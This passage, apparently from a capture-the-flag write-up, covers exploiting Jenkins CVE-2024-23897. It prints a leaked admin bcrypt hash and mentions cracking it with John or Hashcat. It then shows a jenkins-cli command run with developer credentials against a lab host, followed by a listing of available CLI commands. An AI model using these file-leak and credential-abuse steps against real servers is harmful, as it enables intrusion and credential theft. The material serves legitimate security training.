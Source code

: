 ```xml
</user>
```

This dump included a hashed password for the admin account
`#jbcrypt:$2a$10$TS1uvYR2zRJm2Ui5TcPgOe5uZHN97xPTk5H8Dzc4zJ8gvV0WPQwUi`

At this point, I was tempted to toss it into John or Hashcat, but I wanted to keep digging to see if there were any more files I could leak as an authenticated user via CVE-2024-23897.


To get a better sense of what I could do as developer, I ran
`java -jar jenkins-cli.jar -s http://glitch-two.3f30795e908a7c17.ctf.land:7756 -auth developer:11b761923d80e56860f480c20f5748d594 -webSocket help`

giving me the output below.

```bash
add-job-to-view
    Adds jobs to view.
  apply-configuration
    Apply YAML configuration to instance
  build
    Builds a job, and optionally waits until its completion.
  cancel-quiet-down
    Cancel the effect of the "quiet-down" command.
  check-configuration
    Check YAML configuration to instance
  clear-queue
    Clears the build queue.
  connect-node
    Reconnect to a node(s)
  console
    Retrieves console output of a build.
  copy-job
    Copies a job.
  create-credentials-by-xml
    Create Credential by XML
  create-credentials-domain-by-xml
    Create Credentials Domain by XML
  create-job
    Creates a new job by reading stdin as a configuration XML file.
  create-node
    Creates a new node by reading stdin as a XML configuration.
  create-view
    Creates a new view by reading stdin as a XML configuration.
  delete-builds
    Deletes build record(s).
  delete-credentials
    Delete a Credential
  delete-credentials-domain
    Delete a Credentials Domain
  delete-job
    Deletes job(s).
  delete-node
    Deletes node(s)
  delete-view
    Deletes view(s).
  disable-job
    Disables a job.
  disable-plugin
    Disable one or more installed plugins.
  disconnect-node
    Disconnects from a node.
  enable-job
    Enables a job.
  enable-plugin
```